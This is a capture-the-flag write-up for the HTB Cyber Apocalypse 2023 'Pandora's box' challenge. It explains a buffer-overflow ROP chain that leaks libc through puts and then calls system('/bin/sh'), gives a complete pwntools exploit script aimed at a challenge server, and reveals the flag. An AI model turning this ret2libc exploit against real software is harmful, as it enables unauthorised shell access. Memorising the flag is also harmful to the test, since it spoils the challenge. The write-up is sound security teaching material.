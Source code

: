 # Pandora's box - HTB Cyber Apocalypse 2023

## Description
You stumbled upon one of Pandora's mythical boxes. Would you be curious enough to open it and see what's inside, or would you opt to give it to your team for analysis?

## Solution
There's a buffer overflow inside the `Insert location of the library:` prompt, which allows us to perform ROP.

Checksec:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./glibc/'
```

file:
```
./pb: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=d0165634ba8886a0cdf61584d8c941d30ff3820e, for GNU/Linux 3.2.0, not stripped
```

There is no PIE or canary on the binary, so we just have straight up ROP.

Since there is no win function in this binary, we will have to leak libc.

This can be done by using puts to leak an address in the Global Offset Table, then returning to main.

Any address in the GOT can be used. But in this case I opted to use the puts GOT also.

```
I use the puts to the leak the puts :)
```

The exploitation will be divided into two stages.

1. Leak the puts GOT
2. Overflow and ret2libc

To leak the puts got, we first pop the address of the puts GOT into rdi. Then jump to puts's plt to call puts. Puts will then dereference our address and print the contents. We can then return to box() afterwards.

After we have leaked libc, we have all the options in the world. So spawning a shell with system seem like a good candidate.

Exploit:
```py
from pwn import *

io = remote("165.232.108.236",30641)

#Function to get to the overflow
def get_to_overflow():
    io.recvuntil(b'>>')

    io.sendline(b'2')

    io.recvuntil(b'Insert location of the library:')


get_to_overflow()

padding = b'A'*cyclic_find(b'oaaa')

#Gadgets needed for leaking the puts GOT
poprdi = p64(0x000000000040142b)
putsgot = p64(0x403fa0)
putsplt = p64(0x00401030)
box = p64(0x004012c2)

#Leak puts GOT
payload = [
    padding,
    poprdi,
    putsgot,
    putsplt,
    box
]
payload = b''.join(payload)
io.sendline(payload)

#Receive puts leak
io.recvuntil(b'We will deliver the mythical box to the Library for analysis, thank you!\n\n')
puts_leak = u64(io.recvline()[:-1].ljust(8,b'\x00'))

#Calculate base of LIBC
libc_base = puts_leak - 0x80ed0
log.info(f"LIBC BASE: {libc_base:#x}")

#Calculate pointers we need
system = p64(0x50d60 + libc_base)
binsh = p64(0x001d8698 + libc_base)
ret = p64(0x0000000000401016)

get_to_overflow()

#Spawn shell payload
payload = [
    padding,
    ret, #For alignment
    poprdi,
    binsh,
    system
]
payload = b''.join(payload)
io.sendline(payload)


io.interactive()
```

## Flag
`HTB{r3turn_2_P4nd0r4?!}`

